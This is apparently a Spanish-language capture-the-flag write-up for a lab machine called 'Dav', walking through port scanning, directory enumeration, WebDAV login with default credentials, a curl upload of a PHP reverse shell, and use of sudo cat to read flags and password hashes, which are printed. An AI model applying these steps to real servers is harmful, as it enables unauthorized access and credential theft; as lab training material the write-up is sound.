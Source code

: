 # Dav
Máquina sencillita y buena para empezar, el file upload es algo que se pasa por alto muchas veces al comprometer un apache

Puntos intersantes: Curl File Upload
## Initial Scan
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enum
No hay muchos servicios entre los que elegir, vayamos a la web
### HTTP
#### Gobusting
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
```
#### Webdav
En el ultimo tenemos un basic authentication, por lo visto hay varios pares de creds por defecto
```
wampp:xampp
jigsaw:jigsaw
```
Probamos estas y con las primeras entramos, dentro del directorio encontramos un archivo llamado passwd.dav
```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```
Podriamos intentrar crackear el hash pero ya que tenemos un user:pass valido podemos intentar subir una reverse shell, en mi caso la de Pentest Monkey
```
 curl http://10.10.62.113/webdav/hell.php -u wampp:xampp --upload-file php-reverse-shell.php
```
Abrimos un listener con netcat en local y accedemos al archivo subido desde el navegador y tenemos shell como www-data, veamos si podemos escalar desde aqui.

## Privesc
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
``` 
Nuestro usuario tiene total acceso a lectura de ficheros, con esto podemos leer las flag sin ningun problema

Estuve tanteando si teniamos alguna manera de conseguir escalar a root pero no encontre ninguna de las tipicas, lo unico que podriamos intentar escalar lateralmente hacia Merlin o Wamp si lograsemos crackear su hash
```
merlin:$1$EWeeql.h$8mH.7rEhPRGsOb5ECtmIe1:18134:0:99999:7:::
wampp:$6$f8LMirW0$43znQ5kMsELDO9BdUmhbGkUEnVH2OKXZjfEtsyUgbvL79KoJtgLkdbJpHw4OuDDIMtaXjGjkjaRKDv1FFxKsr/:18134:0:99999:7:::
```
Escalar lateralmente hacia Merlin seria una gran idea ya que podemos comprobar que pertenece al grupo de sudo
```
groups merlin
merlin : merlin adm cdrom sudo dip www-data plugdev lpadmin sambashare
```
Podría ser otra manera interesante de escalar privilegios en esta máquina si quisieramos conseguir acceso real en lugar de simplemente leer la flag, pero parece que la contraseña utiliza no esta en rockyou.txt
